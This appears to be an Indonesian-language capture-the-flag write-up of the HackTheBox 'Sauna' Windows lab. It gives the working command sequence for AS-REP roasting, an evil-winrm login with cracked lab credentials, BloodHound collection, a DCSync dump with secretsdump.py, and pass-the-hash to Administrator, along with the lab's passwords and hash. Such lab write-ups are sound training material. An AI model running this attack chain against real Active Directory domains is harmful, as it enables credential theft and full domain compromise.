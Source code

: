 # Sauna (Windows)

![Image](img/1.png)

HackTheBox Sauna dengan operating system Windows. Menurut statistik rating diatas, sepertinya box ini akan mengandalkan berat ke exploitasi lewat CVE.

### Enumeration

Pertama-tama seperti biasa mari kita lakukan port scanning menggunakan nmap !

![Image](img/2.png)

Ternyata hasil nmap menunjukkan begitu banyak port yang terbuka! Hal ini adalah hal yang baik, karena semakin banyak service yang berjalan maka semakin besar juga attack surfacenya.

Dari nmap scan bisa dilihat ada web service yang sedang berjalan, mari kita kunjungi

Ditemukan websitenya dengan employee list yang terlihat menarik, ini bisa dijadikan target tetapi karena kita tidak mengetahui penamaan didalam active directornya tentu jadi masalah

![Image](img/3.png)

Dari gambar diatas ada banyak nama "Staff" yang berpotensial menjadi username yang bisa kita gunakan untuk masuk kedalam. Jadi penulis mencoba untuk membuat custom wordlist berdasarkan prefix dan postfix masing masing nama mereka untuk digunakan sebagai wordlist dalam percobaan ASREPRoasting dengan GetNPUsers.py dari Impacket Suite

![Image](img/4.png)

```
python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile /root/Documents/htb/sauna/employees -no-pass -dc-ip 10.10.10.175
```

![Image](img/5.png)

### User

Kita mendapatkan hash dari user fsmith, setelah di crack dengan john the ripper, maka akan didapatkan credentialsnya yaitu fsmith:Thestrokes23

Kita bisa menggunakan kredensial diatas untuk mendapatkan shell menggunakan evil-winrm

```
Evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

Melakukan enumerasi windows dengan winPEAS.exe tidak memunculkan apapun yg terlalu menarik, mengecek registry untuk credentials berdasarkan referensi ini

[https://attack.mitre.org/techniques/T1214/](https://attack.mitre.org/techniques/T1214/)

Mendapatkan password Moneymakestheworldgoround!

Berhasil login menjadi svc_loanmgr

![Image](img/6.png)

Setelah sudah masuk sebagai svc_loanmgr mari kita tingkatkan enumeration tryhard level kita dengan menggunakan Bloodhound

```
Import-Module ./SharpHound.ps1

Invoke-BloodHound -CollectionMethod All -LDAPUser svc_loanmgr -LDAPPass Moneymakestheworldgoround!
```

Ternyata svc_loanmgr memiliki permission GetChangesAll itu yang bisa ngelakuin DCSync attack buat dapetin hash dari administrator

![Image](img/7.png)

```
python3 /opt/impacket/examples/secretsdump.py 'EGOTISTICAL-BANK.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

Didapatkan hash dari administrator tinggal pass the hash dan kita bisa login sebagai administrator

![Image](img/8.png)

```
evil-winrm -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```

# Rooted !
